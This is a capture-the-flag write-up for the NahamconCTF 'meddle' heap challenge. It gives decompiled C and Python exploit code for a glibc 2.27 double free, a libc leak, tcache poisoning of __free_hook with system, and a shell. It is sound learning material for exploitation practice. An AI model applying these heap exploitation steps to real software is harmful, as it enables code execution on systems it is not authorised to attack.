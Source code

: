 ## NahamconCTF: meddle [pwn]
![](meddle_desc.png)

##### *tl;dr: double free -> tcache poison*

#### Classified as having a hard difficulty, this was a glibc 2.27 heap pwn challenge from the recently held nahamcon ctf. We were given the challenge binary and the corresponding libc needed. It is styled like the usual note-based heap challenges with the summarized capabilities:

```
1. add an album
 - allocates a chunk of size (0x84 + 0xd for alignment). asks for album and artist name. no overflows here.
2. view an album
 - prints details regarding a given album chunk. can view chunk contents even if freed.
3. rate an album
 - gives a rating for an album. 
4. delete an album
 - frees the allocated chunk. does not zero out the pointers leading to a use after free.
```

## Offsets and misalignments
#### Looking closely into the decompiled code, there are a few things that we need to take note of in approaching the challenge, specifically for the add album and rate album functionalities.

#### add_album has the following code, which shows the check that needs to be passed before allocating anything. As I have said earlier there is a limit to how many times we can allocate. Another thing to note of is that the album name stores our input at an offset +4, which causes it to be, in a way, 'misaligned' in memory. 

```c
void add_album(void)

{
  void *pvVar1;
  long lVar2;
  
  if (count < 0x12) {
    pvVar1 = malloc(0x84);
    printf("enter album name: ");
    fgets((char *)((long)pvVar1 + 4),0x50,stdin);
    printf("enter artist name: ");
    fgets((char *)((long)pvVar1 + 0x54),0x30,stdin);
    lVar2 = (long)count;
    count = count + 1;
    *(void **)(albums + lVar2 * 8) = pvVar1;
  }
  else {
    puts("no more albums :(");
  }
  return;
}
```
#### So for example, if we allocate a chunk and fill it with `'A' * 8`, we get the following chunk layout:
![](meddle_layout.png)

#### Unlike the previous function, rate_album allows us to write to the chunk body without the offset, thus filling the untouched space (lower 4 bytes) of a chunk. 

```c
void rate_album(void)

{
  int index;
  undefined4 rating;
  undefined4 *chunk_content;
  
  printf("what album would you like to rate? ");
  index = getnum();
  if ((index < 0) || (count <= index)) {
    puts("invalid index :(");
  }
  else {
    if (*(long *)(albums + (long)index * 8) != 0) {
      printf("\nwhat do you want to rate this album? ");
      chunk_content = *(undefined4 **)(albums + (long)index * 8);
      rating = getnum();
      *chunk_content = rating;
    }
  }
  return;
}
```

## heap fengshui + leaking libc pointers
#### In order to get a leak, we need to get a chunk on the unsorted bin. Since the given libc version has tcache enabled, we need to fill it out first so that the next freed chunk will land on unsorted. 

```python
for i in range(7):

	add_album(chr(ord('A') + i) * 8, chr(ord('A') + i) * 8)

add_album(chr(ord('A') + 7) * 8, chr(ord('A') + 7) * 8) #: 7
add_album("//sh", "AVOIDCONSOLIDATE") 
rate_album(8, 1852400175)
```

#### We allocate chunks[0:6] for the tcache, allocate chunk[7] to go to the tcache bin, and chunk[8] to avoid consolidation with the top chunk when we free chunk[7]. chunk[8] serves more purpose aside from being an anti-consolidation bounday, we will also store the '/bin/sh\x00' string in this chunk and free it once we get control of `__free_hook`. Notice that we write '//sh' first to fill the upper 4 bytes and rate the chunk with an integer form of '/bin' so that we place a properly formed string. 
![](meddle_binsh.png)

#### Next step is to fill the tcache bin by freeing 7 chunks. While were at it, we perform the double free on this part by freeing a chunk in the tcache and freeing the same chunk on the unsortedbin. 

```python
for i in range(4):

	delete_album(i)

#: TRY DOUBLE FREE
delete_album(4)
delete_album(7)
delete_album(5)

#: LEAK HERE
delete_album(7)

leak = view_album(7).split()
libc_leak = int(hex(u16(leak[9])) + hex(int(leak[13]))[2:], 16)
libc_base = libc_leak - 0x3ebca0
log.info(hex(libc_leak))
log.info(hex(libc_base))
```

#### With this we now have a chunk which contains libc pointers and we can simply view its contents. The way the program prints out the details is kinda weird in its own way, so we need to parse it first. It's unreliable, so we might want to retry it a couple more times to leak correct addresses. 

![](meddle_bins.png)

## poison
#### Poisoning tcache entries will be harder than usual because of how the program stores its data in the chunks. This is where the rate functionality comes into play again. Since we already know any function's address in libc (and we have a chunk in the tcache which contains libc pointers), we can simply write to the lower 4 bytes of the double freed chunk to point to free_hook's address. We also need to adjust accordingly on the poisoned address, given the way on how our input gets stored. 

![](meddle_hookbin.png)

#### We just need to allocate the extra chunks and place the address of system on the poisoned free hook address. 

![](meddle_morecoremem.png)

#### Afterwhich, we can free chunk[8] which contains '/bin/sh\x00' to effectively pop a shell and capture the flag.

![](meddle_shell.png)